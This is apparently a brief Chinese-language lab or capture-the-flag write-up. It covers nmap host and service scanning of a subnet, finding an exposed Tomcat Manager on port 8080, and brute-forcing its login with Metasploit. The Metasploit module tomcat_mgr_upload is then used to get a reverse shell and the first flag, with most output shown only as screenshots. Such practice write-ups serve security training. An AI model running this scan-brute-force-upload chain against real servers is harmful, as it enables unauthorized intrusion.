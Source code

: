 # 某一次小练习

#### 1.存活主机

`nmap -sn 192.197.55.0/24`

![1](https://i.loli.net/2019/12/31/WbEKGvY4N3mVAF7.png)

![2](https://i.loli.net/2019/12/31/CDsZJGmNM8AKL3h.png)

根据提示我们可以查看

`nmap -sV 192.197.55.3`

![3](https://i.loli.net/2019/12/31/QRuzj2DKTAh6etG.png)

可以看到8080端口开放

浏览器访问

![4](https://i.loli.net/2019/12/31/wqfzRteDGB1cvrJ.png)

单纯图片

扫描目录

![5](https://i.loli.net/2019/12/31/uLARKBzk5DInGsg.png)
访问manager

![6](https://i.loli.net/2019/12/31/gPkoZ4dcpzOhiCJ.png)

#### 2.利用msf爆破·

![7](https://i.loli.net/2019/12/31/lg7Z4vUHLKPejCR.png)
![8](https://i.loli.net/2019/12/31/SFKHgkq8AheUY2D.png)
#### 3.Tomcat Manager经过身份验证的上载代码执行

```
use exploit/multi/http/tomcat_mgr_upload
```

![9](https://i.loli.net/2019/12/31/TeUmJAkQw36OShl.png)

成功反弹到shell

flag1

![10](https://i.loli.net/2019/12/31/wYvszgNuMHPQKyX.png)

